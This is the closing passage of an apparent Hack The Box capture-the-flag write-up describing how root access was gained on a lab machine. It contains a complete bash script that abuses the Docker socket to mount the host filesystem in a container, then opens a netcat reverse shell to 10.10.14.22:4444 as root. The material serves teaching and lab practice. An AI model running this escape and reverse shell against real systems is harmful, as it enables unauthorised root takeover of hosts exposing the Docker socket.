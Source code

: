 Looks like we already have an image (`sandbox:latest`) to work with. To facilitate things a little bit, I wrote the following script meant for execution in the container.

<div class="filename"><span>root.sh</span></div>

```bash
#!/bin/bash

CMD="/dev/shm/nc 10.10.14.22 4444 -e /bin/bash"
PAYLOAD="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$CMD\\\"\"]"
RESPONSE=$(curl -s \
                -XPOST \
                --unix-socket /var/run/docker.sock \
                -d "{\"Image\":\"sandbox\",\"Cmd\":$PAYLOAD, \"Binds\": [\"/:/mnt:rw\"]}" \
                -H 'Content-Type: application/json' \
                "http://localhost/containers/create")
CID=$(cut -d'"' -f4 <<<"$RESPONSE")

# start the container
curl -s \
     -XPOST \
     --unix-socket /var/run/docker.sock \
     "http://localhost/containers/$CID/start"
```

Copy `nc` to `/dev/shm` for the script to work. It shouldn't matter but I think there's a `cron` job to delete `tmpfs` contents and that includes `/dev/shm` as well. :smirk:

You know the end is near when you see this.

{% include image.html image_alt="b24652f5.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/b24652f5.png" %}

Indeed. The `cron` job I spoke about earlier.

{% include image.html image_alt="a872377d.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/a872377d.png" %}

The file `root.txt` is at `root`'s home directory of course.

{% include image.html image_alt="bb059572.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/bb059572.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/274
[2]: https://www.hackthebox.eu/home/users/profile/8308
[3]: https://www.hackthebox.eu/home/users/profile/13531
[4]: https://www.hackthebox.eu/
